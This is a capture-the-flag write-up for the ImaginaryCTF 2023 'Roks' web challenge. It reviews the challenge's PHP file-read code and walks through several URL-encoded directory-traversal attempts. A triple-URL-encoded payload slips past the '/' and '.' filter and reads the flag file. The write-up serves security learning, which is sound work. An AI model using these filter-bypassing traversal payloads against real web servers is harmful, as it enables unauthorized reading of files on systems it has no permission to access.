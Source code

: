 ```yaml
---
name: Roks (2023)
event: Imaginary 2023
category: Web
description: Writeup for Roks (Web) - Imaginary (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Roks

## Description

> My rock enthusiast friend made a website to show off some of his pictures. Could you do something with it?

Source code is provided, so let's review it before we check [the site](http://roks.chal.imaginaryctf.org).

## Recon

The `Dockerfile` shows us where to look for the flag.

{% code overflow="wrap" %}
```dockerfile
COPY flag.png /
```
{% endcode %}

`index.php` has a function to GET a random image.

{% code overflow="wrap" %}
```js
function requestRandomImage() {
    var imageList = [
        "image1",
        "image2",
        "image3",
        "image4",
        "image5",
        "image6",
        "image7",
        "image8",
        "image9",
        "image10",
    ];

    var randomIndex = Math.floor(Math.random() * imageList.length);
    var randomImageName = imageList[randomIndex];

    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function () {
        if (xhr.readyState === 4 && xhr.status === 200) {
            var blob = xhr.response;
            var imageUrl = URL.createObjectURL(blob);
            document.getElementById("randomImage").src = imageUrl;
        }
    };

    xhr.open("GET", "file.php?file=" + randomImageName, true);
    xhr.responseType = "blob";
    xhr.send();
}
```
{% endcode %}

You'll notice that it makes a request to `file.php` with a user-controllable GET parameter, possible LFI. Checking the source, we'll see that parameters including `/` or `.` will be blocked, preventing us from using directory traversal, e.g. `../../`.

{% code overflow="wrap" %}
```php
$filename = urldecode($_GET["file"]);
if (str_contains($filename, "/") or str_contains($filename, ".")) {
    $contentType = mime_content_type("stopHacking.png");
    header("Content-type: $contentType");
    readfile("stopHacking.png");
} else {
    $filePath = "images/" . urldecode($filename);
    $contentType = mime_content_type($filePath);
    header("Content-type: $contentType");
    readfile($filePath);
}
```
{% endcode %}

## Solution

We load the site and click the `get rok picture`. Each time, it retrieves a new random rock picture. The URL doesn't change but we know from the source code, we can simply access a URL like: http://roks.chal.imaginaryctf.org/file.php?file=image1

We try LFI: http://roks.chal.imaginaryctf.org/file.php?file=../../../flag.png

As expected, we get the `stopHacking.png` which tells us to `STOP HACKING OUR COMPUTER.. YOU HACKERS`.

Let's try with URL encoding: `%2e%2e%2f%2e%2e%2f%2e%2e%2fflag.png`

No difference, but I realised we aren't allowed a single dot in the string, so tried `%2e%2e%2f%2e%2e%2f%2e%2e%2fflag%2epng` but no luck.

Tried to double-URL encode: `%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66flag%25%32%65png`

Still no luck, so I tried URL encode with unicode: `%u002e%u002e%u002f%u002e%u002e%u002f%u002e%u002e%u002fflag%u002epng`

This time, we get some errors.

{% code overflow="wrap" %}
```txt
Warning: mime_content_type(images/%u002e%u002e%u002f%u002e%u002e%u002f%u002e%u002e%u002fflag%u002epng): Failed to open stream: No such file or directory in /var/www/html/file.php on line 9

Warning: Cannot modify header information - headers already sent by (output started at /var/www/html/file.php:9) in /var/www/html/file.php on line 10

Warning: readfile(images/%u002e%u002e%u002f%u002e%u002e%u002f%u002e%u002e%u002fflag%u002epng): Failed to open stream: No such file or directory in /var/www/html/file.php on line 11
```
{% endcode %}

Hmmm OK so reviewing the code again, notice that it first URL decodes the filename.

{% code overflow="wrap" %}
```php
$filename = urldecode($_GET["file"]);
```
{% endcode %}

Next, it checks if the filename contains `/` or `.` and if it doesn't, it will URL decode the filename a second time.

{% code overflow="wrap" %}
```php
$filePath = "images/" . urldecode($filename);
```
{% endcode %}

This made me think my approach of double URL encoding was correct, I'd just failed to directory traverse far enough since `/var/www/html/images/` requires `../../../../` to get back to the root directory: `%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66flag%25%32%65png`

Still doesn't work 😬 Maybe I need to triple URL encode: `%2525%2532%2565%2525%2532%2565%2525%2532%2566%2525%2532%2565%2525%2532%2565%2525%2532%2566%2525%2532%2565%2525%2532%2565%2525%2532%2566%2525%2532%2565%2525%2532%2565%2525%2532%2566%2525%2536%2536%2525%2536%2563%2525%2536%2531%2525%2536%2537%2525%2532%2565%2525%2537%2530%2525%2536%2565%2525%2536%2537`

Yep, that did the trick! We get a PNG image containing the flag. I'm too lazy to type it out, so I extract the text from the image.

{% code overflow="wrap" %}
```bash
sudo apt-get install tesseract-ocr
```
{% endcode %}

{% code overflow="wrap" %}
```bash
tesseract file.png stdout
ictf{tr4nsv3rsing Ov3r_rOk5_6a3367}
```
{% endcode %}

Tesseract got 4 characters wrong 🙄 Manually corrected the flag!

Flag: `ictf{tr4nsv3rs1ng_0v3r_r0k5_6a3367}`
